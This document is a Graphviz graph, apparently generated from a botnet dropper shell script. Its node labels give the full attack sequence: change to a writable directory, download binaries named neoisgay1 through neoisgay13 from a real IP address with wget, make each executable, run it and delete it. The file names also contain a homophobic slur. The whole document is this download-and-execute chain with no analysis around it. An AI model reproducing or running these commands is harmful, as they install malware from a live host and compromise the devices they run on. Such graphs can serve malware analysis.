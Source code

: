 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://185.116.237.137/neoisgay1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x neoisgay1 "];
12 -> 14 [label=";,"];
14 [label="./neoisgay1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf neoisgay1 "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://185.116.237.137/neoisgay2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x neoisgay2 "];
30 -> 32 [label=";,"];
32 [label="./neoisgay2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf neoisgay2 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://185.116.237.137/neoisgay3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x neoisgay3 "];
48 -> 50 [label=";,"];
50 [label="./neoisgay3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf neoisgay3 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://185.116.237.137/neoisgay4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x neoisgay4 "];
66 -> 68 [label=";,"];
68 [label="./neoisgay4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf neoisgay4 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://185.116.237.137/neoisgay5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x neoisgay5 "];
84 -> 86 [label=";,"];
86 [label="./neoisgay5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf neoisgay5 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://185.116.237.137/neoisgay6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x neoisgay6 "];
102 -> 104 [label=";,"];
104 [label="./neoisgay6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf neoisgay6 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://185.116.237.137/neoisgay7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x neoisgay7 "];
120 -> 122 [label=";,"];
122 [label="./neoisgay7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf neoisgay7 "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://185.116.237.137/neoisgay8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x neoisgay8 "];
138 -> 140 [label=";,"];
140 [label="./neoisgay8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf neoisgay8 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://185.116.237.137/neoisgay9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x neoisgay9 "];
156 -> 158 [label=";,"];
158 [label="./neoisgay9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf neoisgay9 "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://185.116.237.137/neoisgay10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x neoisgay10 "];
174 -> 176 [label=";,"];
176 [label="./neoisgay10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf neoisgay10 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://185.116.237.137/neoisgay11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x neoisgay11 "];
192 -> 194 [label=";,"];
194 [label="./neoisgay11 "];
194 -> 196 [label=";,"];
196 [label="rm -rf neoisgay11 "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://185.116.237.137/neoisgay12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x neoisgay12 "];
210 -> 212 [label=";,"];
212 [label="./neoisgay12 "];
212 -> 214 [label=";,"];
214 [label="rm -rf neoisgay12 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://185.116.237.137/neoisgay13 "];
226 -> 228 [label=";,"];
228 [label="chmod +x neoisgay13 "];
228 -> 230 [label=";,"];
230 [label="./neoisgay13 "];
230 -> 231 [label=";,"];
}
